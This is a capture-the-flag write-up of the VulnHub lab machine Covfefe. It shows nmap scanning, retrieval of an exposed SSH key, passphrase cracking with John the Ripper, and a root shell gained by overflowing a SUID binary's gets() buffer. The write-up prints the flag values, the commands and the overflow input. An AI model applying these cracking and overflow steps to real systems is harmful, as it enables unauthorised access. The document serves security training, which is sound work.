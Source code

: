 Vulnhub - Covfefe

# Vulnhub - Covfefe

## Enumeration

- Started enumerating by running NMAP by using default parameters

```
└─$ nmap -sC -sV -oA quick 192.168.119.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-05 17:40 -03
Nmap scan report for 192.168.112.10
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:6a:10:e0:fb:63:22:be:09:96:0b:71:6a:60:ad:1a (RSA)
|   256 ac:2c:11:1e:e2:d6:26:ea:58:c4:3e:2d:3e:1e:dd:96 (ECDSA)
|_  256 13:b3:db:c5:af:62:c2:b1:60:7d:2f:48:ef:c3:13:fc (ED25519)
80/tcp    open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome to nginx!
31337/tcp open  http    Werkzeug httpd 0.11.15 (Python 3.5.3)
| http-robots.txt: 3 disallowed entries 
|_/.bashrc /.profile /taxes
|_http-server-header: Werkzeug/0.11.15 Python/3.5.3
|_http-title: 404 Not Found
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.12 seconds
```

### 80/TCP

- Checking this Nginx page, noticed that seems to be the default website. Nothing to do here :)

### 31337/TCP

- When accessing this app on 31337 port, also after noticing that this webserver is very uncommon ( Werkzeug httpd) got a "Not Found" page but when I have started the enumeration I have found the following data on robots.txt

```
User-agent: *
Disallow: /.bashrc
Disallow: /.profile
Disallow: /taxes
```

- Browsing to the **/taxes** page, got a message saying that my flag is somewhere else...

- The entries **.bashrc** and **.profile** shows that this page might be published from an user's home profile. It's very likely that this user has id_rsa keys. Browsing to this directory they were found and downloaded to our box.

- Checking the **id_rsa.pub** file, noticed that the user for this credential can be **simon@covfefe** and after comparing both this file and **authorized_keys**, noticed that they're identical. The only problem with this RSA key is that is encrypted, identified after looking for the attribute **ENCRYPTED** on its contents, requiring us to look for a passphrase in order to be able to use it.

```
└─$ cat id_rsa.pub             
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDzG6cWl499ZGW0PV+tRaOLguT8+lso8zbSLCzgiBYkX/xnoZx0fneSfi93gdh4ynVjs2sgZ2HaRWA05EGR7e3IetSP53NTxk5QrLHEGZQFLId3QMMi74ebGBpPkKg/QzwRxCrKgqL1b2+EYz68Y9InRAZoq8wYTLdoUVa2wOiJv0PfrlQ4e9nh29J7yPgXmVAsy5ZvmpBp5FL76y1lUblGUuftCfddh2IahevizLlVipuSQGFqRZOdA5xnxbsNO4QbFUhjIlA5RrAs814LuA9t2CiAzHXxjsVW8/R/eD8K22TO7XEQscQjaSl/R4Cr1kNtUwCljpmpjt/Q4DJmExOR simon@covfefe
└─$ diff -s id_rsa.pub authorized_keys                                                               
Files id_rsa.pub and authorized_keys are identical
└─$ cat id_rsa | grep ENCRYPTED
Proc-Type: 4,ENCRYPTED
```

- Before start digging for this passphrase, let's first try to crack it using John. To do it we need first use **ssh2john** to create a hash file from the encrypted content and then brute forced it using a dictionary, in this case **rockyou.txt** which was a very good idea once it has returned the passphrase we're needing to logon to the box, which is **starwars**.

```
└─$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 
└─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
starwars         (/dcruz/vulnhub/covfefe/loot/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:10 DONE (2020-09-05 17:58) 0.09980g/s 1431Kp/s 1431Kc/s 1431KC/sa6_123..*7¡Vamos!
Session completed

└─$ /usr/sbin/john --show id_rsa.hash 
/dcruz/vulnhub/covfefe/loot/id_rsa:starwars

1 password hash cracked, 0 left
```

- After connecting to the box using the obtained credentials was able to get the **local.txt** flag on user's home directory:

```
simon@covfefe:~$ cat local.txt
d695ee2066190bdab0cf22758d1eeb39
```



## Privilege Escalation

- Checking other interesting things on user's home directory there was also a **.bash_history** file, which is not forwarded to /dev/null and has an interesting entry for an executable called **read_message**. This binary has the SUID bit set and could probably allow us to escalate privilege.

```
  simon@covfefe:~$ cat .bash_history 
  read_message
  exit
  date | md5sum | awk '{print $q}'
  date | md5sum > local.txt
  cat local.txt 
  nano local.txt 
  ls -la
  cat .bash_history 
  exit
  simon@covfefe:~$ whereis read_message
  read_message: /usr/local/bin/read_message
  simon@covfefe:~$ ls -la /usr/local/bin/read_message 
  -rwsr-xr-x 1 root staff 7608 Jul  2  2017 /usr/local/bin/read_message
```
  
- Running read_message by the first time, it asks for our name and prints it as stdout saying that we're not allowed to see the message, but when I have tried with Simon, that is the user we have access to, the proper message is displayed
  
```
simon@covfefe:~$ read_message
What is your name?
test
Sorry test, you're not Simon! The Internet Police have been informed of this violation.
simon@covfefe:~$ read_message 
What is your name?
Simon
Hello Simon! Here is your message:

Hi Simon, I hope you like our private messaging system.

I'm really happy with how it worked out!

If you're interested in how it works, I've left a copy of the source code in my home directory.

- Charlie Root
```

- Now let's take a look at the source code of this binary to see if is there something interesting. As this is Charlie Root, we've been able to see **read_message.c** file under /root path. Below are it's contents:

```
  simon@covfefe:/root$ cat read_message.c 
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>

  // You're getting close! Here's another flag:
  // flag2{use_the_source_luke}

  int main(int argc, char *argv[]) {
    char program[] = "/usr/local/sbin/message";
      char buf[20];
      char authorized[] = "Simon";

      printf("What is your name?\n");
      gets(buf);
      
      // Only compare first five chars to save precious cycles:
      if (!strncmp(authorized, buf, 5)) {
          printf("Hello %s! Here is your message:\n\n", buf);
          // This is safe as the user can't mess with the binary location:
          execve(program, NULL, NULL);
      } else {
          printf("Sorry %s, you're not %s! The Internet Police have been informed of this violation.\n", buf, authorized);
          exit(EXIT_FAILURE);
      }

  }
  simon@covfefe:/root$ 
```

- In the source code we're able to see that the app is hardcoded to only allow Simon to use it but also that the input for the username has only 20 chars long. This might lead to a buffer overflow, once we might  change the previous declared variable, in this case **program** which is below in the stack pile. Also the remote code execution will this happen because the program calls the program using execve() function, otherwise we wouldn't be able to use this binary for privesc.

- After some attempts, I've found that the string **SimonAAAAAAAAAAAAAAA/bin/sh** is enough to cause the Buffer Overflow and also return an elevated prompt. 

  - It has to start with **Simon**, otherwise we won't get to code execution phase
  - It has to end with **/bin/sh** in order to get an interactive prompt. If you try the same using **/bin/bash** you won't succeed once bash contains protections against privilege escalation.
  - In between I have started adding the character **A** until I was able to get arbitrary code execution

```
  simon@covfefe:~$ read_message
  What is your name?
  SimonAAAAAAAAAAAAAAA/bin/sh
  Hello SimonAAAAAAAAAAAAAAA/bin/sh! Here is your message:

  # cd /root
  # cat flag.txt
  Your flag is in another file...
  # dir
flag.txt  proof.txt  read_message.c
  # cat proof.txt
  386f50fde90ccb48cddaa052cb7d47ed
```

## Appendix

- When this box was first released, the flags were different and also there is other flags in the initial one, as you might have noticed when we were reading the source code for read_message.

- Below all the flags for the initial version on VulnHub:

  - After finding the  robots.txt, there's an entry on **/taxes** page. This would leak the first flag below instead of the displayed message:

```
Good job! Here is a flag: flag1{make_america_great_again}
```

  - The second flag, present on read_message.c source code:

```
flag2{use_the_source_luke}
```

  - Original root flag:

```
flag3{das_bof_meister}
```
